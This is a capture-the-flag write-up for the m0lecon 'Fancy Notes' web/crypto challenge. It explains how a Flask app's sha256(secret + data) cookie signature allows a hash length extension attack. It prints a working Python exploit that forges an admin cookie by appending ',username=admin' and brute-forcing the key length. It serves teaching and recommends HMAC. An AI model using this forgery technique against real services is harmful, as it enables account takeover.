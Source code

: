 # Fancy Notes

Categories: Web, Crypto, Warmup

Description:
> Hello my friend, I need your help!
> As you know, in Italy food is very important and I'm not good at it... but I want to surprise my parents with a special recipe.
> I asked Marco Giordano for an advice, he is very good, but he didn't want to reveal his secrets...
> I know he saves his recipes on [Fancy Notes](https://fancynotes.m0lecon.fans/), find a way to steal them.
> 
> Author: @RxThorn
> 
> [Source code](https://ctf.m0lecon.it/attachments/391035157d504163961bb2d526b36eb6/fancynotes.zip)

**Tags:** Hash Length Extension SHA, Cookies, Authentication, Flask

## Takeaways

* Hash Length extension attack
* Logging with flask:
    ```python
    # In __init__.py where the app is created:
    app.logger.setLevel(logging.DEBUG)

    # In any other python file (e.g. routes.py):
    from flask import current_app as app

    app.logger.debug('Foobar')
    ```
 * Don't implement the crypto yourself. If you want to sign data, then use an HMAC instead of the scheme used in this challenge!

## Solution

Upon vising the website we are presented with the following page.

![index.png](writeup-resources/index.png)

It is a simple web app where you register, and then you login, and you can make notes.

![create-note.png](writeup-resources/create-note.png)             |  ![notes.png](writeup-resources/notes.png)
:-------------------------:|:-------------------------:

So, let's check the source code to see how we can get the flag.

```python
def init_db(db):
    username = "admin"
    password = random_string(20)

    if User.query.filter_by(username=username).count() > 0:
        return

    user = User(username=username, password=hashlib.sha256(
        password.encode()).hexdigest(), locale='en'
    )
    note = Note(title="flag", body=os.environ.get("FLAG"))
    user.notes.append(note)
    db.session.add(user)
    db.session.commit()
```

So, as we can see, we have to login as `admin` in order to access their notes and get the flag.

The bug lies in the user authentication. When a request arrives, we first check if the user has authenticated

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")
def get_user():
    if not 'user' in request.cookies:
        return None
    # ... reconstruct user from cookie #
    return user
```

So, let's check how the `user` cookie is created

```python
@app.route('/login', methods=['POST', 'GET'])
def login():
    if request.method == 'POST':
        response = make_response(redirect("/notes"))
        response.set_cookie('user', generate_cookie(user))
        return response

def generate_cookie(user):
    SECRET_KEY = os.environ.get("SECRET_KEY")
    user_string = deserialize_user(user)
    signature_string = hashlib.sha256(
        (SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest()
    cookie = base64.b64encode(
        (f'{user_string}|{signature_string}').encode('raw_unicode_escape')).decode()
    return cookie

def deserialize_user(user):
    values = []
    for k in ["username", "locale"]:
        values.append(f'{k}={user.__dict__[k]}')
    return ','.join(values)
```

So, as an example:

![login.png](writeup-resources/login.png)

`user=dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ==`

And the value base64-decodes to:

`username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a`

So, `user_string="username=fane,locale=en"` and `signature_string` is the hash of a secret key concatenated with the `user_string`.

Now, let's check how the server reconstructs the user information from the cookie:

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")

def get_user():
    if not 'user' in request.cookies:
        return None

    SECRET_KEY = os.environ.get("SECRET_KEY")
    cookie = base64.b64decode(request.cookies.get('user')).decode('raw_unicode_escape')
    assert len(cookie.split('|')) == 2
    user_string = cookie.split('|')[0]
    signature_string = cookie.split('|')[1]

    if hashlib.sha256((SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest() != signature_string:
        print("nope")
        return None

    user = serialize_user(user_string)
    return user
```

The server re-computes the hash from the `user_string` sent and its secret, and compares it with the provided hash to determine the integrity of the cookie.

SHA256 is vulnerable to Hash length extension attacks: Given `H(msg1)` and the length of `msg1`, we can compute `H(msg1 || msg2)` with an attacker controlled `msg2`. So, we partially know `msg1` and we can append stuff to the `user_string`, so we also control `msg2`. But, how about the length of `msg1`? We do not know the length of the `SECRET_KEY`. We can brute-force it as it shouldn't be reasonably anything longer than 256 characters (and that is an overapproximation!).

So, we can affect `user_string` and generate spoofed signatures. But how can we abuse this? Let's take a closer look at how the `user` object is generated from the serialized data

```python
def serialize_user(user_string):
    user = dict()
    for kv in user_string.split(','):
        k = kv.split('=')[0]
        v = kv.split('=')[1]
        user[k] = v
    return user
```

Remember the example `user_string="username=fane,locale=en"`. The `serialize_user()` function will iterate over the key-value pairs in the string and set them. We can add another `,username=admin` key-pair to overwrite the previous value and set our username to admin. This will escalate our privileges to the `admin` user.

So, let's write our exploit:

```python
# cookie `user` value 
# username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a
cookie = "dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ=="
cookie = base64.b64decode(cookie).decode('ascii')

user_string, signature_str = cookie.split('|')
Hmessage1 = signature_str
message1_length = 1

message2 = ',username=admin'
while message1_length < 256:
    new_signature, new_msg = hashpumpy.hashpump(signature_str, user_string, message2, message1_length)

    new_cookie = new_msg + b'|' + bytes(new_signature, encoding='utf-8')
    new_cookie = base64.b64encode(new_cookie).decode('ascii')

    s = requests.Session()
    cookie_obj = requests.cookies.create_cookie(
        name="user", value=new_cookie
    )
    s.cookies.set_cookie(cookie_obj)

    r = s.get('http://127.0.0.1:5000/notes', verify=False, allow_redirects=False)
    print(r.text)
    if 'admin' in r.text:
        flag = re.search(r'ptm{.+}', r.text).group(0)
        break

    message1_length += 1

print("Logged in!")
print("Message1 length: " + str(message1_length))
print("user=" + new_cookie)
print("Flag: " + flag)
```

And we get the flag

`ptm{pleaseD0NOTUseCr3am1nCarbon4r4!}`

